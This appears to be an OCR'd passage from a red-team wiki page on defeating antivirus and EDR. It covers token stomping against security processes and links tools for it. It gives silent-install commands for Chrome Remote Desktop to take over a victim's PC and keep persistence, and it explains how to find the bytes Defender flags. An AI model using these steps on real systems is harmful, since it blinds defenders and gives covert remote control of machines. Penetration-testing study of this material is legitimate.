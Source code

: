 ```
Token stomping is a technique that allows an attacker to **manipulate the access token or a security prouct like an EDR or AV**, allowing them to reduce it privileges so the process won't die but it won't have permissions to check for malicious activities.

To prevent this Windows could **prevent external processes** from getting handles over the tokens of security processes.

- [[https://github.com/pwn1sher/KillDefender/|**https://github.com/pwn1sher/KillDefender/**]]
- [[https://github.com/MartinIngesen/TokenStomp|**https://github.com/MartinIngesen/TokenStomp**]]
- [[https://github.com/nick-frischkorn/TokenStripBOF|**https://github.com/nick-frischkorn/TokenStripBOF**]]

## Using Trusted Software

### Chrome Remote Desktop

As described in [[https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide|**this blog post**]], it's easy to just deploy the Chrome Remote Desktop in a victims PC and then use it to takeover it and maintain persistence:
1. Download from https://remotedesktop.google.com/, click on "Set up via SSH", and then click on the MSI file for Windows to download the MSI file.
2. Run the installer silently in the victim (admin required): `msiexec /i chromeremotedesktophost.msi /qn`
3. Go back to the Chrome Remote Desktop page and click next. The wizard will then ask you to authorize; click the Authorize button to continue.
4. Execute the given parameter with some adjustments: `"%PROGRAMFILES(X86)%\Google\Chrome Remote Desktop\CurrentVersion\remoting_start_host.exe" --code="YOUR_UNIQUE_CODE" --redirect-url="https://remotedesktop.google.com/_/oauthredirect" --name=%COMPUTERNAME% --pin=111111` (Note the pin param which allows to set the pin withuot using the GUI).
 

## Advanced Evasion

Evasion is a very complicated topic, sometimes you have to take into account many different sources of telemetry in just one system, so it's pretty much impossible to stay completely undetected in mature environments.

Every environment you go against will have their own strengths and weaknesses.

I highly encourage you go watch this talk from [[https://twitter.com/DaniLJ94|@ATTL4S]], to get a foothold into more Advanced Evasion techniques.

[[https://vimeo.com/502507556?embedded=true&owner=32913914&source=vimeo_logo]]

his is also another great talk from [[https://twitter.com/mariuszbit|@mariuszbit]] about Evasion in Depth.

[[https://www.youtube.com/watch?v=IbA7Ung39o4]]

## **Old Techniques**

### **Check which parts Defender finds as malicious**

You can use [[https://github.com/rasta-mouse/ThreatCheck|**ThreatCheck**]] which will **remove parts of the binary** until it **finds out which part Defender** is finding as malicious and split it to you.\
Another tool doing the **same thing is** [[https://github.com/dobin/avred) with an open web offering the service in [**https://avred.r00ted.ch/**](https://avred.r00ted.ch/|**avred**]]

### **Telnet Server**

Until Windows10, all Windows came with a **Telnet server** that you could install (as administrator) doing:
```